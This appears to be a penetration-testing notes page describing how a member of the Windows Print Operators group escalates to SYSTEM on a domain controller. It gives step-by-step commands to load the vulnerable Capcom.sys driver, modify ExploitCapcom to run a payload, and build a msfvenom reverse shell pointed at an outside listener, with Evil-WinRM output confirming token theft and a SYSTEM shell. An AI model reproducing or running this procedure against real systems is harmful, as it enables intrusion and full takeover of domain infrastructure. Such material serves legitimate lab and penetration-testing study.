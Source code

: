 ```yaml
---
description: Manage, create, share, and delete printers.
---
```


# Print Operators

Print Operators a highly privileged group whos members can manage, create, share and delete printers connected to the DC. If `SeLoadDriverPrivilege` is not visible from an unelevated context, we will need to bypass UAC.

```
*Evil-WinRM* PS C:\Users\svc-print\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

### <mark style="color:yellow;">Loading a vulnerable driver</mark>

As member of print operator with the privilege SeLoadDriverPrivilege we can load drivers and exploit it by loading a vulnerable driver. We can use CapCom driver for this. \
[https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

In Visual Studio create a new project eopdriver. Then past the code from [https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp](https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp)

From the includes remove `include "stdafx.h"`

Then build the project as Release and x64. Copy the compiled eodriver.exe and Capcom.sy to C:\programdata\\.

```powershell
*Evil-WinRM* PS C:\programdata> .\eopdriver.exe System\CurrentControlSet\Capcom C:\ProgramData\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\Capcom
NTSTATUS: 00000000, WinError: 0
```

### <mark style="color:yellow;">Exploit the driver</mark>

Having access to a gui we can just run ExploitCapCom as it will call cmd.exe. However without a gui thats not usefull. Therefore change the ExploitCapCom and point it to C:\ProgramData\reverse.exe which is a msfvenom made reverse shell.

1. Download ExploitCapcom and edit ExploitCapcom.cpp \
   [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

2. Change the line: `TCHAR CommandLine[] = TEXT("C:\ProgramData\reverse.exe");`.
3. Create a reverse shell `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.153 LPORT=443 -f exe -o reverse.exe`
4. &#x20;Upload reverse.exe and the compiled ExploitCapcom.exe and run ExploitCapcom.exe for a reverse shell.

```powershell
*Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 0000026FBA220008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

